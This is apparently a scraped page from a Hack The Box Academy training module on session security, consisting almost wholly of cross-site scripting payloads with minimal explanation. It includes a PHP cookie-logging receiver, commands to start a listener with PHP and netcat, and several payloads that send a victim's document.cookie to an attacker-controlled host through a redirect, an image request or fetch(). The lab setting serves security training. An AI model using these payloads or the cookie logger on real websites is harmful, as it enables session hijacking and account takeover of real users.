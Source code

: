 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/153/section/1446
// Platform Version: V1
// Module ID: 153
// Module Name: Session Security
// Module Difficulty: Medium
// Section ID: 1446
// Section Title: Cross-Site Scripting (XSS)
// Page Title: Session Security
// Page Number: 05
-->

# Cross-Site Scripting (XSS)

**Module Name:** Session Security **Page Number:** 05

#### SESSION SECURITY

# Cross-Site Scripting (XSS)

![https://academy.hackthebox.com/storage/modules/153/20.png](https://academy.hackthebox.com/storage/modules/153/20.png)

``` javascript
"><img src=x onerror=prompt(document.domain)>
```

``` javascript
"><img src=x onerror=confirm(1)>
```

``` javascript
"><img src=x onerror=alert(1)>
```

![https://academy.hackthebox.com/storage/modules/153/21.png](https://academy.hackthebox.com/storage/modules/153/21.png)

![https://academy.hackthebox.com/storage/modules/153/22.png](https://academy.hackthebox.com/storage/modules/153/22.png)

![https://academy.hackthebox.com/storage/modules/153/23.png](https://academy.hackthebox.com/storage/modules/153/23.png)

## Obtaining session cookies through XSS

``` php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

``` shell-session
[!bash!]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

``` javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

``` javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

![https://academy.hackthebox.com/storage/modules/153/52.png](https://academy.hackthebox.com/storage/modules/153/52.png)

![https://academy.hackthebox.com/storage/modules/153/53.png](https://academy.hackthebox.com/storage/modules/153/53.png)

## Obtaining session cookies via XSS (Netcat edition)

``` javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

``` shell-session
[!bash!]$ nc -nlvp 8000
listening on [any] 8000 ...
```

![https://academy.hackthebox.com/storage/modules/153/54.png](https://academy.hackthebox.com/storage/modules/153/54.png)

![https://academy.hackthebox.com/storage/modules/153/55.png](https://academy.hackthebox.com/storage/modules/153/55.png)

``` javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

# 

# 

#### Questions

####